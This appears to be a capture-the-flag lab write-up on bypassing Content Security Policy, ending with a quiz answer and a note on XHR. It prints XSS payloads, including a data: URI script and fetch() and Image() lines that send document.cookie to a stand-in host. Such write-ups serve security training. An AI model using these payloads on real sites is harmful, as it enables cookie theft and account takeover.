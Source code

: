**Unsafe CSP configurations**

Some sites may allow loading of resources from unsafe sources, for example by allowing data: URIs or using the 'unsafe-inline' source. For example, if a website allows loading scripts from data: URIs, you can simply bypass their policy by moving your payload to the src attribute of the script, like so: `<script src="data:application/javascript,alert(1)"></script>`

  

﻿**Exfiltration**

﻿To exfiltrate sensitive information, your client needs to connect to a webserver you control. For our purposes, we can use a free service such as [Beeceptor](https://beeceptor.com/) to receive the information via the path of the request. If you have access to a paid service such as Burp Collaborator, you can use this instead.

If you prefer running a web server for exfiltration locally, you can set up a simple HTTP server using python by running `python -m SimpleHTTPServer` or `python3 -m http.server`.

If the website you're exploiting allows AJAX requests (via `connect-src`) to anywhere, you can create a fetch request to your server like so:

``<script>fetch(`http://example.com/${document.cookie}`)</script>``

When the script is triggered on the victim's machine, you'll see their cookies show up in your access log, like so:

![](https://i.imgur.com/edr8tNa.png)  

  

If you found an XSS vulnerability and bypassed CSP, but can't leak any information with it via XHR requests or fetch, the `connect-src` policy may be blocking your requests. This can be bypassed if the website you're exploiting doesn't have strict settings for directives such as image-src and media-src, which can be abused to leak information.  

For example, if a website is blocking all of your XHR requests but allows images to be loaded from any location, you can abuse this with JavaScript to load a specially crafted URL that masquerades as an image, like so:``<script>(new Image()).src = `https://example.com/${encodeURIComponent(document.cookie)}`</script>``

Answer the questions below

If Ajax/XHR requests are blocked, can we still exfiltrate sensitive information? (Yes / No)

*Yes*

```
XHR (XMLHttpRequest) is an API in the form of an object that allows web pages to send and receive data from a server asynchronously, without the need to refresh the entire page. This allows web pages to update their content dynamically, without the user having to navigate to a new page or refresh the current page.

XHR requests are commonly used in AJAX (Asynchronous JavaScript and XML) applications to dynamically update the content of a web page without requiring a full page refresh. When a web page makes an XHR request, it sends an HTTP request to a server-side endpoint, such as a PHP script or a JSON file, and waits for a response. The response can be in the form of XML, HTML, JSON or plain text. Once the response is received, JavaScript code on the web page can update the page's content using the data from the response.

The `XMLHttpRequest` API is supported by all major web browsers, including Internet Explorer, Google Chrome, Firefox, Safari and Edge.

You can create a XHR Object and use the various method of it to make the request and handle the responses. `XMLHttpRequest` has some level of complexity comparing to `fetch()` API, but can be useful in certain cases like handling request timeouts, caching and managing low-level details of the request.

--
```